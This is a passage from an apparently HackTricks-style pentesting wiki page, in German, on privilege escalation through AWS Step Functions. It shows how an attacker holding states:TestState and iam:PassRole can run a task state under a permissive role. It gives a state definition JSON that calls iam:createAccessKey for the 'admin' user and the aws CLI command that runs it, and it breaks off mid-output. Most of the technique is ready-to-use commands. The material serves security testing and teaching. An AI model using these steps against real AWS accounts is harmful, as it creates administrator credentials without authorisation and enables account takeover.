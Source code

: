 # AWS - Step Functions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Step Functions

Für weitere Informationen zu diesem AWS-Dienst, siehe:

{{#ref}}
../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### Task Resources

Diese Techniken zur Eskalation von Berechtigungen erfordern die Nutzung einiger AWS Step Function-Ressourcen, um die gewünschten Aktionen zur Eskalation von Berechtigungen durchzuführen.

Um alle möglichen Aktionen zu überprüfen, könntest du zu deinem eigenen AWS-Konto gehen, die Aktion auswählen, die du verwenden möchtest, und die verwendeten Parameter einsehen, wie in:

<figure><img src="../../../images/telegram-cloud-photo-size-4-5920521132757336440-y.jpg" alt=""><figcaption></figcaption></figure>

Oder du könntest auch zur API-Dokumentation von AWS gehen und die Dokumentation zu jeder Aktion überprüfen:

- [**AddUserToGroup**](https://docs.aws.amazon.com/IAM/latest/APIReference/API_AddUserToGroup.html)
- [**GetSecretValue**](https://docs.aws.amazon.com/secretsmanager/latest/apireference/API_GetSecretValue.html)

### `states:TestState` & `iam:PassRole`

Ein Angreifer mit den Berechtigungen **`states:TestState`** & **`iam:PassRole`** kann jeden Zustand testen und jede IAM-Rolle an ihn übergeben, ohne eine vorhandene Zustandsmaschine zu erstellen oder zu aktualisieren, was unbefugten Zugriff auf andere AWS-Dienste mit den Berechtigungen der Rollen ermöglichen kann. Diese Berechtigungen können in Kombination zu umfangreichen unbefugten Aktionen führen, von der Manipulation von Workflows zur Datenänderung bis hin zu Datenlecks, Ressourcenmanipulation und Eskalation von Berechtigungen.
```bash
aws states test-state --definition <value> --role-arn <value> [--input <value>] [--inspection-level <value>] [--reveal-secrets | --no-reveal-secrets]
```
Die folgenden Beispiele zeigen, wie man einen Zustand testet, der einen Zugriffsschlüssel für den **`admin`**-Benutzer erstellt, indem diese Berechtigungen und eine großzügige Rolle der AWS-Umgebung genutzt werden. Diese großzügige Rolle sollte eine hochprivilegierte Richtlinie zugeordnet haben (zum Beispiel **`arn:aws:iam::aws:policy/AdministratorAccess`**), die es dem Zustand ermöglicht, die Aktion **`iam:CreateAccessKey`** auszuführen:

- **stateDefinition.json**:
```json
{
"Type": "Task",
"Parameters": {
"UserName": "admin"
},
"Resource": "arn:aws:states:::aws-sdk:iam:createAccessKey",
"End": true
}
```
- **Befehl** ausgeführt, um die Privilegieneskalation durchzuführen:
```bash
aws stepfunctions test-state --definition file://stateDefinition.json --role-arn arn:aws:iam::<account-id>:role/PermissiveRole

{
"output": "{
\"AccessKey\":{
```